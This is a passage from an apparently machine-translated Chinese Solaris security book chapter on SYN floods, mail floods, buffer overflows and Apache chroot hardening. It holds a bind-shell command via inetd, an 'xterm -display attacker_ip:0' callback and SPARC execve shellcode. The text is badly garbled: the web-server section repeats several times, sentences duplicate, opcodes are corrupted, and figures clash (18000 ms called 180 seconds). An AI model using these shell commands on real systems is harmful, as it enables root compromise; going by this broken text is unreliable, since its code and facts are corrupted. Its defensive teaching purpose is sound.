| tcpInOrderBytes | 1536244 | tcpInOrderSegs | 2 |
| tcpInOrderBytes | 2166 | tcpInDupSegs | 8 |
| tcpInDupBytes | 4561 | tcpInPartSegs | 0 |
| tcpInPartDupBytes | 0 | tcpInWinSegs | 0 |
| tcpInPastWinBytes | 0 | tcpInWinProbe | 0 |
| tcpInWinUpdate | 3 | tcpInClosed | 2 |
| tcpRttNoUpdate | 20 | tcpRttUpdate | 90670 |
| tcpTimRetrans | 33 | tcpTimRetransDrop | 0 |
| tcpTimKeepalive | 778 | tcpTimKeepaliveProbe | 0 |
| tcpTimKeepaliveDrop | 0 | tcpListenDrop | 0 |
| tcpListenDropQ0 | 0 | tcpHalfOpenDrop | 0 |
| tcpOutSackRetrans | 0 |

通过检查参数 `tcpTimRetransDrop` 和 `tcpListenDrop` 的值可以识别 TCP SYN 攻击。`tcpTimRetransDrop` 参数显示了自启动以来由于超时导致的异常数量，该值包含了 SYN 请求和已建立的 TCP 连接。`tcpListenDrop` 参数显示了系统启动以来由于 TCP 队列溢出而被拒绝的 SYN 请求数量。如果 `tcpListenDrop` 值随着 `tcpTimRetransDrop` 的值快速增加，则系统极可能正遭受 TCP SYN 攻击。

另一种判断 Solaris 系统是否遭受 TCP SYN 攻击的方法是使用 `snnoop` 实用程序监控出主机的流量。虽然这不是检测 SYN 攻击的理想方法，但使用 `snnoop` 验证 SYN 泛洪的发生可能非常有用。简单地监控目标为受攻击主机的 TCP 流量。以下示例显示了 SYN 泛洪的样本跟踪：

```bash
# snnoop -d le0 -o /tmp/snoop.log -v host attack.hacker.org

# host solaris.victim.com tcp and port 22

1. 0.0000 attack.hacker.org -> solaris.victim.com TCP D=22
S=42369 Seq=2982763941 Len=0=Win=4096

2. 0.0034 attack.hacker.org -> solaris.victim.com TCP D=22
S=61389 Seq=997843043 Len=0=Win=2048

3. 1.92965 attack.hacker.org -> solaris.victim.com TCP D=22
S=37583 Seq=4106242639 Len=0=Win=4096

7. 1.85421 attack.hacker.org -> solaris.victim.com TCP D=22
S=61620 Seq=2182414901 Len=0=Win=2048

9. 1.93544 attack.hacker.org -> solaris.victim.com TCP D=22
S=45278 Seq=1561416019 Len=0=Win=1024

11. 1.91951 attack.hacker.org -> solaris.victim.com TCP D=22
S=53009 Seq=3348440882 Len=0=Win=3072

13. 1.77750 attack.hacker.org -> solaris.victim.com TCP D=22
S=63144 Seq=941883255 Len=0=Win=4096
```

## 深度解析攻击 • 第10章

```bash
15. 1.86887 attack.hacker.org -> solaris.victim.com TCP D=22
S=61460 Seq=1188106034 Len=0 Win=1024

17. 1.82336 attack.hacker.org -> solaris.victim.com TCP D=22
S=53869 Seq=1735024976 Len=0 Win=3072

19. 1.98871 attack.hacker.org -> solaris.victim.com TCP D=22
S=45286 Seq=2771164840 Len=0 Win=1024
```

所示的数据包是从攻击者主机 `attack.hacker.org` 向目标 `solaris.victim.com` 发送的 SYN 包。缺失的包（数据包 2、4、6、8 等）是 `solaris.victim.com` 向攻击者发送的 SYN-ACK。协议为 TCP，目标端口为 22（D=22），以及攻击者的源端口（跟踪轨迹中的 `S=` 字段）和攻击者的 TCP 序列号（如 `Seq=` 字段所示）。

在防御 TCP SYN 洪水攻击时，Solaris 管理员必须执行以下两点：

- 缩短中止定时器（abort timer）的值
- 延长 TCP 连接队列的长度

可以使用内核参数 `tcp_ip_abort_interval` 来缩短中止间隔。该参数的值单位是毫秒，默认间隔为 18000 毫秒，即 180 秒。如需更改此值，应使用 `ndd` 工具。要将超时时间设为 60 秒，系统管理员可以使用：

```bash
# ndd -set /dev/tcp tcp_ip_abort_interval 60000
```

内核参数 `tcp_conn_req_max_q0` 控制 Solaris 2.6 及更高版本中未建立的 TCP 连接的队列大小（在带有补丁 103581-11 的 Solaris 2.5.1 中亦然）。`tcp_conn_req_max_q0` 的默认值为 1024。要增加队列大小，请使用以下命令：

```bash
# ndd -set /dev/tcp tcp_conn_req_max_q0 2048
```

需要考虑的一点是，增加 TCP 连接队列的大小会导致内核消耗更多内存。内存有限的系统可能会因为缓解 TCP SYN 洪水攻击的尝试而无法使用。

另一个需要考虑的点是，TCP SYN 洪水攻击可以耗尽已建立连接队列。这种攻击对黑客来说没有那么吸引力，因为连接可以追溯到源，但它仍然是一个问题。Solaris 2.6 及更高版本（以及带有补丁 103582-11 的 Solaris 2.5.1）提供了对已建立 TCP 连接队列大小的控制。


### 第10章 • 深度解析

这种控制通过内核参数 `tcp_conn_req_max_q` 提供（注意该队列名称与不稳定 TCP 连接队列名称之间的相似性）。其默认值为 128。要将已建立的 TCP 连接队列增加到 256，命令是：

```bash
# ndd -set /dev/tcp tcp_conn_req_max_q 256
```


这里是主机允许的活动 TCP 连接总数的地方。

## 邮件洪水

我们将涵盖的最后一种拒绝服务攻击是针对邮件服务器的。这种攻击涉及向邮件服务器发送大量消息。这些消息可以是垃圾邮件（SPAM），或者仅仅是为阻塞服务器邮件队列而设计的消息，从而防止任何合法的邮件进入。

默认情况下，所有 Solaris 系统都安装了由 Sendmail 财团（www.sendmail.org）制作的 Sun 版本的流行 Sendmail 程序。从 Solaris 7 开始，操作系统捆绑的 Sendmail 服务器拒绝邮件中继。早期的 Sendmail 可以通过下载并安装最新代码来轻松地升级。

虽然在 Solaris 下，防御部分第三方中继已变得更容易，但要防御进入邮件服务器的邮件洪水要困难得多。攻击者可以使用 Expect、Perl、Python 或 shell 语言创建一个简单的脚本，向邮件服务器发送伪造的邮件，直到服务器的邮件队列溢满。这种攻击的防御困难性源于邮件本身的性质：虽然可以配置 Sendmail 拒绝来自特定用户或域的任何邮件，但拒绝整个域名会导致合法邮件流量被拒绝。事实上，任何通过拒绝邮件来防御邮件服务器的攻击者都面临着拒绝有效邮件的风险。

鉴于此，防御邮件服务器应该围绕配置服务器展开，使邮件洪水不会导致服务器崩溃。为了实现这一目标，`/var/mail` 目录应该位于与其它 `/var` 子目录独立的分区上。该分区的大小应根据给定五天内传输的邮件量合理设置，并额外增加 50% 的容量以备增长。

防御邮件服务器遭受邮件洪水是非常困难的。防御邮件服务器遭受邮件洪水是一个极其困难的挑战。


# 深度解析攻击 • 第10章

邮件服务器。防御邮件服务器遭受邮件洪水是非常困难的。

在第 7 章中讨论了锁定这些的方法。

## 防止缓冲区溢出

缓冲区溢出是因为对输入变量的边界检查不当。巧妙编写的缓冲区溢出可以覆盖栈上的保存指令指针，将其替换为包含攻击者希望执行的代码的新内存位置。该位置将包含所需命令的操作码。

什么是缓冲区？缓冲区是连续的内存块，可以存放多个实例。要理解溢出的工作原理，必须查看内存是如何组织的。

- 代码段（称为操作码）是只读的，包含汇编指令。
- 数据段包含初始化的全局变量。
- BSS 未初始化的全局变量。
- 堆提供动态分配请求的内存池。
- 栈包含调用程序的地址、传递的参数和其他信息。

名为指令指针（IP，也称为程序计数器 PC）的处理器寄存器指向当前执行的程序指令（操作码）的地址或下一个指令的地址。在执行每条指令后，指令指针的值都会增加以包含下一个指令。当程序进行调用时，系统需要知道跳转到下一个指令，以及如何返回原来的位置。CALL 语句为函数分配足够的内存并在栈上存储执行指令的 IP 值。

返回指令从栈中弹出存储的指令指针值并将其复制回寄存器 IP。这种解释是极简的

| 命令行参数和环境变量 |
| 栈 |
| 未使用的虚拟空间 |
| 堆 |
| BSS |
| 数据 |
| 代码 |


理解缓冲区溢出如何工作，理解栈结构是必要的。简单的栈如图 10.2 所示。
函数的参数被推入栈中，同时指令指令指针，包含了 CALL 操作的内存地址，或者当控制权返回调用函数的程序部分时执行下一个指令的地址。最后，分配函数变量空间以存储局部函数变量。

缓冲区溢出是因为对输入变量的边界检查不当。巧妙编写的缓冲区溢出可以覆盖栈上的保存指令指针，将其替换为包含攻击者希望执行的代码的新内存位置。该位置将包含所需命令的操作码。这些命令可能是

# 破解攻击手段 • 第10章

从简单的 `execve("/bin/sh", 0, 0)` 到复杂的命令，如 `xterm -display attacker_ip:0` 或 `echo ingress stream tcp nowait /bin/sh -i >> /tmp/x; /usr/bin/inetd -s /tmp/x`。关于缓冲区溢出机制的更详细参考，请参见 www.phrack.org 的“Smashing the Stack for Fun and Profit”，Phrack, vol. 49, file 14, 1996年11月8日。

## 图 10.2 简单的栈结构



当攻击者利用缓冲区溢出提升权限或获取远程访问权限时，被攻击程序始终可能会崩溃。这可能导致核心文件（core file）转储到目录，或导致关键服务无法可用。缓冲区溢出攻击的另一个迹象可以在系统日志文件中找到，例如这个来自 Todd Garrison 的“Practical Examination for GIAC”的示例，可以在 www.sans.org/y2k/practical/Todd_Garrison.html 找到。

```
May 25 20:56:25 solarisd[197]: [ID 858011 daemon.warning]

/usr/sbin/sadmin: Segmentation Fault - core dumped

May 25 20:57:23 solarisd[197]: [ID 858011 daemon.warning]

/usr/sbin/sadmin: Bus Error - core dumped

May 25 20:57:29 solarisd[197]: [ID 858011 daemon.warning]

/usr/sbin/sadmin: Segmentation Fault - core dumped
```

## 第10章 - 破解攻击手段

```
May 25 20:57:48 solaris inetd[197]: [ID 858011 daemon.warning]

/usr/sbin/sbindmid: Bus Error - core dumped

May 25 20:57:50 solaris inetd[197]: [ID 858011 daemon.warning]

/usr/sbin/sbindmid: Segmentation Fault - core dumped

May 25 21:00:25 solaris inetd[197]: [ID 858011 daemon.warning]

/usr/sbin/sbindmid: Bus Error - core dumped

May 25 21:00:27 solaris inetd[197]: [ID 858011 daemon.warning]

/usr/sbin/sbindmid: Segmentation Fault - core dumped

May 25 21:00:47 solaris inetd[197]: [ID 858011 daemon.warning]

/usr/sbin/sbindmid: Bus Error - core dumped

May 25 21:00:52 solaris inetd[197]: [ID 858011 daemon.warning]

/usr/sbin/sbindmid: Segmentation Fault - core dumped

May 25 21:01:59 solaris inetd[197]: [ID 858011 daemon.warning]

/usr/sbin/sbindmid: Segmentation Fault - core dumped

May 25 21:02:03 solaris inetd[197]: [ID 858011 daemon.warning]

/usr/sbin/sbindmid: Bus Error - core dumped

May 25 21:02:09 solaris inetd[197]: [ID 858011 daemon.warning]

/usr/sbin/sbindmid: Segmentation Fault - core dumped

May 25 21:02:28 solaris inetd[197]: [ID 858011 daemon.warning]

/usr/sbin/sbindmid: Bus Error - core dumped

May 25 21:02:30 solaris inetd[197]: [ID 858011 daemon.warning]

/usr/sbin/sbindmid: Segmentation Fault - core dumped

May 25 21:05:05 solaris inetd[197]: [ID 858011 daemon.warning]

/usr/sbin/sbindmid: Bus Error - core dumped

May 25 21:05:07 solaris inetd[197]: [ID 858011 daemon.warning]
```


`/usr/sbin/sbindmid`: Segmentation Fault - core dumped

目标程序是 daemon 进程。对于 Solaris 2.6 和 7 中的漏洞，使用以下攻击可以在系统上打开一个 root shell：

```
echo ingress stream tcp nowait /bin/sh -i >> /tmp/x;/usr/sbin/inetd -s /tmp/x
```

在这种特定情况下，攻击成功的明显迹象是系统中运行了一个额外的 `inetd` 进程，它监听端口 1524，准备绑定一个交互式 shell。

## 地下笔记...

### 缓冲区溢出的原理

缓冲区溢出是如何工作的？简而言之，想法是将必要的代码注入目标缓冲区，然后更改栈中的指令指针（Instruction Pointer）指向该代码。这一概念如图 10.3 所示。

### 图 10.3 缓冲区溢出机制

| 栈底部 | |
| :--- | :--- |
| FF | c |
| FB | b |
| F7 | a |
| EF | SFP |
| EB | 缓冲区 |
| DA | JMP |
| D8 | 栈顶部 |

当代码注入缓冲区时，它大于缓冲区预期的尺寸。创建代码时要小心——如果它太大且没有将新地址写入 IP，程序可能会崩溃。在图 10.3 中，代码被写入栈并指向栈顶部（2）。当遇到返回语句时，指令地址从 IP 复制到处理器。在这种情况下，使用 `JMP` 来解决攻击代码位于程序内存空间不确定的问题。`JMP` 指令允许使用相对地址，因为它只需要提供当前指令的偏移量。通过让 `JMP` 指令跳转到 `CALL` 指令（3），攻击字符串（位于栈帧 SFP）被推入栈，作为 `CALL` 返回后执行的指令。`CALL` 指令使用相对地址指向攻击代码中的第一条指令（4）并将控制权转移给它。当攻击代码执行完成后，执行攻击字符串（它是 `CALL` 返回后要执行的下一条指令）。

攻击看起来是什么样的？考虑一个 Solaris 攻击。这段特定的 shellcode 是由“Cheez Wiz”在沙箱创建的。这段代码的目的是生成一个 shell，其中执行的命令是 Cheez Wiz 的攻击案例：

```
char shell[]={

/* \x20\xbf\xff\xff */ skip:

/* \x20\xbf\xff\xff */ execve:

/* \x7f\xff\xff\xff */ call skip

/* \x90\x03\xe0\x5c */ add %o7,%o0

/* \x92\x21\x20\x10 */ sub %o0,16,%o1

/* \x94\x21\xc0\x0d */ xor %o7,%o7,%o2

/* \xec\x01\x3f\xff\xf0 */ ld [%o0-16],16

/* \xac\x22\x80\x16 */ sub %o2,16,%16

/* \xae\x02\x60\x10 */ add %o1,16,%o17

/* \xae\x22\x3f\xff\xf0 */ st %17,[%o0-16]

/* \xae\x05\x10\x88 */ add %17,8,%o17

/* \xc0\x2d\xff\xff */ stb %g0,[%17-1]

/* \xee\x22\x3f\x44 */ st %17,%o0-12]
};
```


```
* 52 /* \xac05\xe0\x03 */ add %17,3,%17
* 56 /* \xac0\x2d\xff\xff */ stb %g0,[%17-1]
* 60 /* \xee\x22\x3f\x88 */ st %17,[%o0-8]
* 64 /* \xae\x05\xc0\x1c\x16 */ add %17,16,%17
* 68 /* \xc0\x2d\xff\xff */ stb %g0,[%17-1]
* 72 /* \xc0\x22\x3f\xc0 */ st %g0,[%o4-4]
* 76 /* \x82\x10\x20\x3b */ mov 59,g1
* 80 /* \x91\xd0\x20\x08 */ ta 8
data:
* 84 /* \xff\xef\xff\xff */
* 88 /* \xff\xef\xff\xff */
* 92 /* \xff\xef\xff\xff */
* 96 /* \xff\xef\xff\xff */
* 100 /* \x2f\x62\x69\x6e\x2f\x73\x68\xff */
* 108 /* \x2d\x63\x6f; */
```

第一条命令禁用了直接在栈上执行代码的操作，而第二条命令则会对任何此类尝试进行记录。将这些内容添加到 `/etc/system` 文件中将需要重启系统。这里应该提提一点：虽然这些命令让成功执行缓冲区溢出变得更加困难，但它们并不能完全阻止溢出。没有什么能阻止攻击者构建指向库调用的 `CALL` 帧并跳转到库调用。从那里开始，经过几次调用，他们就会分配一些内存并跳转到那里。

新的溢出会定期被发现，但并非所有发现的溢出都出现在提权环境或远程访问中。然而，任何在 root 用户 ID 下运行的进程中发现的或在 `setuid` 程序中发现的缓冲区溢出都必须被高度重视并立即处理。防止已知缓冲区溢出的最佳防御方法是保持系统补丁处于最新的版本修订级别。

## 针对 Web 服务器的缓冲区溢出

针对 Solaris 上 Web 服务器的溢出与针对 Microsoft Information Server 的缓冲区溢出攻击完全不同。针对 Apache 服务器的缓冲区溢出通常针对由 Apache 服务器运行的 CGI 程序。这类缓冲区溢出会导致 Web 服务器在 Web 服务器账户的上下文中执行任意命令。防止 Web 服务器上的缓冲区溢出涉及两个主要步骤：

- 以非特权用户运行 Web 服务器
- 在 `chrooted` 环境中运行 Web 服务器

要以非特权用户运行 Apache，守护进程所需的用户账户必须存在于密码文件中。这可以通过使用现有的非特权账户（如 `nobody`），也可以通过向密码文件添加如 `httpd` 这样的用户账户并锁定该账户来实现。在 Solaris 中，可以使用 `/usr/sbin/useradd` 程序创建账户，然后使用 `passwd` 命令配合 `-l`（lock）选项来锁定账户，如下所示：

```
root@nostromo:
# useradd -u 65535 -g 65534 -d /opt/www -s /bin/false -c
# "Web Server account" -m httpd
6 blocks
root@nostromo:#
```

```
# passwd -l httpd
[root@nostromio:~]
# grep httpd /etc/passwd /etc/shadow
/etc/passwd:httpd:x:65535:65534:Web Server
account:/opt/bin/false
/etc/shadow:httpd:*LK*:11558:::::
```

在 `chrooted` 环境中运行 Apache Web 服务器需要一些精力。首要工作是确定 `httpd` 二进制文件的库依赖项。这些信息可以使用 `ldd` 进行收集。在接下来的示例中，确定了 Apache 服务器各种程序的库依赖项。

```
# ldd ab hdigest htpasswd httpd logresolve rotatels
ab:
```

```
libsocket.so.1 => /usr/lib/libsocket.so.1
libssl.so.1 => /usr/lib/libns1.so.1
libdl.so.1 => /usr/lib/libdl.so.1
libc.so.1 => /usr/lib/libc.so.1
libmp.so.2 => /usr/lib/libmp.so.2
```

```
htdigest:
libsocket.so.1 => /usr/lib/libsocket.so.1
libssl.so.1 => /usr/lib/libns1.so.1
libdl.so.1 => /usr/lib/libdl.so.1
libc.so.1 => /usr/lib/libc.so.1
libmp.so.2 => /usr/lib/libmp.so.2
```

```
htpasswd:
libsocket.so.1 => /usr/lib/libsocket.so.1
libssl.so.1 => /usr/lib/libns1.so.1
libdl.so.1 => /usr/lib/libdl.so.1
libc.so.1 => /usr/lib/libc.so.1
libmp.so.2 => /usr/lib/libmp.so.2
```


`httpd`:

`libsocket.so.1` => `/usr/lib/libsocket.so.1`

`libssl.so.1` => `/usr/lib/libns1.so.1`

`libdl.so.1` => `/usr/lib/libdl.so.1`


页面也应该安装在 `chrooted` 环境下，以便 `httpd` 进程可以访问。一旦一切准备就绪，可以使用以下命令启动 Web 服务器：

```
# chroot /opt/www /usr/bin/httpd
```

这将在 `chrooted` 环境中启动 Apache Web 服务器，在那里它将更加安全。关于在 `chrooted` 环境中运行 Apache 所需步骤的详细讨论，可以在 Liam Phillips 在 8 月份《SysAdmin》杂志上发表的《Jailed Services》中找到。

## 针对 Web 服务器的缓冲区溢出

针对 Solaris 上 Web 服务器的溢出与针对 Microsoft Information Server 的缓冲区溢出攻击完全不同。针对 Apache 服务器的缓冲区溢出通常针对由 Apache 服务器运行的 CGI 程序。这类缓冲区溢出会导致 Web 服务器在 Web 服务器账户的上下文中执行任意命令。防止 Web 服务器上的缓冲区溢出涉及两个主要步骤：

- 以非特权用户运行 Web 服务器
- 在 `chrooted` 环境中运行 Web 服务器

要以非特权用户运行 Apache，守护进程所需的用户账户必须存在于密码文件中。这可以通过使用现有的非特权账户（如 `nobody`），也可以通过向密码文件添加如 `httpd` 这样的用户账户并锁定该账户来实现。在 Solaris 中，可以使用 `/usr/sbin/useradd` 程序创建账户，然后使用 `passwd` 命令配合 `-l`（lock）选项来锁定账户，如下所示：

```
root@nostromo:
# useradd -u 65535 -g 65534 -d /opt/www -s /bin/false -c
# "Web Server account" -m httpd
6 blocks
root@nostromo:#
```

```
# passwd -l httpd
[root@nostromio:~]
# grep httpd /etc/passwd /etc/shadow
/etc/passwd:httpd:x:65535:65534:Web Server
account:/opt/bin/false
/etc/shadow:httpd:*LK*:11558:::::
```

在 `chrooted` 环境中运行 Apache Web 服务器需要一些精力。首要工作是确定 `httpd` 二进制文件的库依赖项。这些信息可以使用 `ldd` 进行收集。在接下来的示例中，确定了 Apache 服务器各种程序的库依赖项。

```
# ldd ab hdigest htpasswd httpd logresolve rotatels
ab:
```

```
libsocket.so.1 => /usr/lib/libsocket.so.1
libssl.so.1 => /usr/lib/libns1.so.1
libdl.so.1 => /usr/lib/libdl.so.1
libc.so.1 => /usr/lib/libc.so.1
libmp.so.2 => /usr/lib/libmp.so.2
```

```
htdigest:
```

```
libsocket.so.1 => /usr/lib/libsocket.so.1
libssl.so.1 => /usr/lib/libns1.so.1
libdl.so.1 => /usr/lib/libdl.so.1
libc.so.1 => /usr/lib/libc.so.1
libmp.so.2 => /usr/lib/libmp.so.2
```

```
htpasswd:
```

```
libsocket.so.1 => /usr/lib/libsocket.so.1
libssl.so.1 => /usr/lib/libns1.so.1
libdl.so.1 => /usr/lib/libdl.so.1
libc.so.1 => /usr/lib/libc.so.1
libmp.so.2 => /usr/lib/libmp.so.2
```

```
httpd:
```

```
libsocket.so.1 => /usr/lib/libsocket.so.1
libssl.so.1 => /usr/lib/libns1.so.1
libdl.so.1 => /usr/lib/libdl.so.1
```


`libc.so.1` => `/usr/lib/libc.so.1`

`libmp.so.2` => `/usr/lib/libmp.so.2`

`httpd`:

`libsocket.so.1` => `/usr/lib/libsocket.so.1`

`libssl.so.1` => `/usr/lib/libns1.so.1`

`libdl.so.1` => `/usr/lib/libdl.so.1`


页面也应该安装在 `chrooted` 环境下，以便 `httpd` 进程可以访问。一旦一切准备就绪，可以使用以下命令启动 Web 服务器：

```
# chroot /opt/www /usr/bin/httpd
```

这将在 `chrooted` 环境中启动 Apache Web 服务器，在那里它将更加安全。关于在 `chrooted` 环境中运行 Apache 所需步骤的详细讨论，可以在 Liam Phillips 在 8 月份《SysAdmin》杂志上发表的《Jailed Services》中找到。

## 针对 Web 服务器的缓冲区溢出

针对 Solaris 上 Web 服务器的溢出与针对 Microsoft Information Server 的缓冲区溢出攻击完全不同。针对 Apache 服务器的缓冲区溢出通常针对由 Apache 服务器运行的 CGI 程序。这类缓冲区溢出会导致 Web 服务器在 Web 服务器账户的上下文中执行任意命令。防止 Web 服务器上的缓冲区溢出涉及两个主要步骤：

- 以非特权用户运行 Web 服务器
- 在 `chrooted` 环境中运行 Web 服务器

要以非特权用户运行 Apache，守护进程所需的用户账户必须存在于密码文件中。这可以通过使用现有的非特权账户（如 `nobody`），也可以通过向密码文件添加如 `httpd` 这样的用户账户并锁定该账户来实现。在 Solaris 中，可以使用 `/usr/sbin/useradd` 程序创建账户，然后使用 `passwd` 命令配合 `-l`（lock）选项来锁定账户，如下所示：

```
root@nostromo:
# useradd -u 65535 -g 65534 -d /opt/www -s /bin/false -c
# "Web Server account" -m httpd
6 blocks
root@nostromo:#
```

```
# passwd -l httpd
[root@nostromio:~]
# grep httpd /etc/passwd /etc/shadow
/etc/passwd:httpd:x:65535:65534:Web Server
account:/opt/bin/false
/etc/shadow:httpd:*LK*:11558:::::
```

在 `chrooted` 环境中运行 Apache Web 服务器需要一些精力。首要工作是确定 `httpd` 二进制文件的库依赖项。这些信息可以使用 `ldd` 进行收集。在接下来的示例中，确定了 Apache 服务器各种程序的库依赖项。

```
# ldd ab hdigest htpasswd httpd logresolve rotatels
ab:
```

```
libsocket.so.1 => /usr/lib/libsocket.so.1
libssl.so.1 => /usr/lib/libns1.so.1
libdl.so.1 => /usr/lib/libdl.so.1
libc.so.1 => /usr/lib/libc.so.1
libmp.so.2 => /usr/lib/libmp.so.2
```

```
htdigest:
```

```
libsocket.so.1 => /usr/lib/libsocket.so.1
libssl.so.1 => /usr/lib/libns1.so.1
libdl.so.1 => /usr/lib/libdl.so.1
libc.so.1 => /usr/lib/libc.so.1
libmp.so.2 => /usr/lib/libmp.so.2
```

```
htpasswd:
```

```
libsocket.so.1 => /usr/lib/libsocket.so.1
libssl.so.1 => /usr/lib/libns1.so.1
libdl.so.1 => /usr/lib/libdl.so.1
libc.so.1 => /usr/lib/libc.so.1
libmp.so.2 => /usr/lib/libmp.so.2
```

```
httpd:
```

```
libsocket.so.1 => /usr/lib/libsocket.so.1
libssl.so.1 => /usr/lib/libns1.so.1
libdl.so.1 => /usr/lib/libdl.so.1
```


`libssl.so.1` => `/usr/lib/libns1.so.1`

`libdl.so.1` => `/usr/lib/libdl.so.1`

`libc.so.1` => `/usr/lib/libc.so.1`

`libmp.so.2` => `/usr/lib/libmp.so.2`


`httpd`:

`libsocket.so.1` => `/usr/lib/libsocket.so.1`

`libssl.so.1` => `/usr/lib/libns1.so.1`

`libdl.so.1` => `/usr/lib/libdl.so.1`


页面也应该安装在 `chrooted` 环境下，以便 `httpd` 进程可以访问。一旦一切准备就绪，可以使用以下命令启动 Web 服务器：

```
# chroot /opt/www /usr/bin/httpd
```

这将在 `chrooted` 环境中启动 Apache Web 服务器，在那里它将更加安全。关于在 `chrooted` 环境中运行 Apache 所需步骤的详细讨论，可以在 Liam Phillips 在 8 月份《SysAdmin》杂志上发表的《Jailed Services》中找到。

## 针对 Web 服务器的缓冲区溢出

针对 Solaris 上 Web 服务器的溢出与针对 Microsoft Information Server 的缓冲区溢出攻击完全不同。针对 Apache 服务器的缓冲区溢出通常针对由 Apache 服务器运行的 CGI 程序。这类缓冲区溢出会导致 Web 服务器在 Web 服务器账户的上下文中执行任意命令。防止 Web 服务器上的缓冲区溢出涉及两个主要步骤：

- 以非特权用户运行 Web 服务器
- 在 `chrooted` 环境中运行 Web 服务器

要以非特权用户运行 Apache，守护进程所需的用户账户必须存在于密码文件中。这可以通过使用现有的非特权账户（如 `nobody`），也可以通过向密码文件添加如 `httpd` 这样的用户账户并锁定该账户来实现。在 Solaris 中，可以使用 `/usr/sbin/useradd` 程序创建账户，然后使用 `passwd` 命令配合 `-l`（lock）选项来锁定账户，如下所示：

```
root@nostromo:
# useradd -u 65535 -g 65534 -d /opt/www -s /bin/false -c
# "Web Server account" -m httpd
6 blocks
root@nostromo:#
```

```
# passwd -l httpd
[root@nostromio:~]
# grep httpd /etc/passwd /etc/shadow
/etc/passwd:httpd:x:65535:65534:Web Server
account:/opt/bin/false
/etc/shadow:httpd:*LK*:11558:::::
```

在 `chrooted` 环境中运行 Apache Web 服务器需要一些精力。首要工作是确定 `httpd` 二进制文件的库依赖项。这些信息可以使用 `ldd` 进行收集。在接下来的示例中，确定了 Apache 服务器各种程序的库依赖项。

```
# ldd ab hdigest htpasswd httpd logresolve rotatels
ab:
```

```
libsocket.so.1 => /usr/lib/libsocket.so.1

libssl.so.1 => /usr/lib/libns1.so.1

libdl.so.1 => /usr/lib/libdl.so.1

libc.so.1 => /usr/lib/libc.so.1

libmp.so.2 => /usr/lib/libmp.so.2
```

```
htdigest:
```

```
libsocket.so.1 => /usr/lib/libsocket.so.1

libssl.so.1 => /usr/lib/libns1.so.1

libdl.so.1 => /usr/lib/libdl.so.1

libc.so.1 => /usr/lib/libc.so.1

libmp.so.2 => /usr/lib/libmp.so.2
```

```
htpasswd:
```

```
libsocket.so.1 => /usr/lib/libsocket.so.1

libssl.so.1 => /usr/lib/libns1.so.1

libdl.so.1 => /usr/lib/libdl.so.1

libc.so.1 => /usr/lib/libc.so.1

libmp.so.2 => /usr/lib/libmp.so.2
```

```
httpd:
```

```
libsocket.so.1 => /usr/lib/libsocket.so.1

libssl.so.1 => /usr/lib/libns1.so.1

libdl.so.1 => /usr/lib/libdl.so.1
```


页面也应该安装在 `chrooted` 环境下，以便 `httpd` 进程可以访问。一旦一切准备就绪，可以使用以下命令启动 Web 服务器：

```
# chroot /opt/www /usr/bin/httpd
```

这将在 `chrooted` 环境中启动 Apache Web 服务器，在那里它将更加安全。关于在 `chrooted` 环境中运行 Apache 所需步骤的详细讨论，可以在 Liam Phillips 在 8 月份《SysAdmin》杂志上发表的《Jailed Services》中找到。

针对 Web 服务器的缓冲区溢出

第一条命令禁用了直接在栈上执行代码的操作，而第二条命令则会对任何此类尝试进行记录。将这些内容添加到 `/etc/system` 文件中将需要重启系统。这里应该提提一点：虽然这些命令让成功执行缓冲区溢出变得更加困难，但它们并不能完全阻止溢出。没有什么能阻止攻击者构建指向库调用的 `CALL` 帧并跳转到库调用。从那里开始，经过几次调用，他们就会分配一些内存并跳转到那里。

新的溢出会定期被发现，但并非所有发现的溢出都出现在提权环境或远程访问中。然而，任何在 root 用户 ID 下运行的进程中发现的或在 `setuid` 程序中发现的缓冲区溢出都必须被高度重视并立即处理。防止已知缓冲区溢出的最佳防御方法是保持系统补丁处于最新的版本修订级别。

## 针对 Web 服务器的缓冲区溢出

针对 Solaris 上 Web 服务器的溢出与针对 Microsoft Information Server 的缓冲区溢出攻击完全不同。针对 Apache 服务器的缓冲区溢出通常针对由 Apache 服务器运行的 CGI 程序。这类缓冲区溢出会导致 Web 服务器在 Web 服务器账户的上下文中执行任意命令。防止 Web 服务器上的缓冲区溢出涉及两个主要步骤：

- 以非特权用户运行 Web 服务器
- 在 `chrooted` 环境中运行 Web 服务器

要以非特权用户运行 Apache，守护进程所需的用户账户必须存在于密码文件中。这可以通过使用现有的非特权账户（如 `nobody`），也可以通过向密码文件添加如 `httpd` 这样的用户账户并锁定该账户来实现。在 Solaris 中，可以使用 `/usr/sbin/useradd` 程序创建账户，然后使用 `passwd` 命令配合 `-l`（lock）选项来锁定账户，如下所示：

```
root@nostromo:
# useradd -u 65535 -g 65534 -d /opt/www -s /bin/false -c
# "Web Server account" -m httpd
6 blocks
root@nostromo:#
```

```
# passwd -l httpd
[root@nostromio:~]
# grep httpd /etc/passwd /etc/shadow
/etc/passwd:httpd:x:65535:65534:Web Server
account:/opt/bin/false
/etc/shadow:httpd:*LK*:11558:::::
```

在 `chrooted` 环境中运行 Apache Web 服务器需要一些精力。首要工作是确定 `httpd` 二进制文件的库依赖项。这些信息可以使用 `ldd` 进行收集。在接下来的示例中，确定了 Apache 服务器各种程序的库依赖项。

```
# ldd ab hdigest htpasswd httpd logresolve rotatels
ab:
```

```
libsocket.so.1 => /usr/lib/libsocket.so.1
```


libssl.so.1 => `/usr/lib/libns1.so.1`

libdl.so.1 => `/usr/lib/libdl.so.1`

libc.so.1 => `/usr/lib/libc.so.1`

libmp.so.2 => `/usr/lib/libmp.so.2`

```
```

htdigest:

libsocket.so.1 => `/usr/lib/libsocket.so.1`

libssl.so.1 => `/usr/lib/libns1.so.1`

libdl.so.1 => `/usr/lib/libdl.so.1`

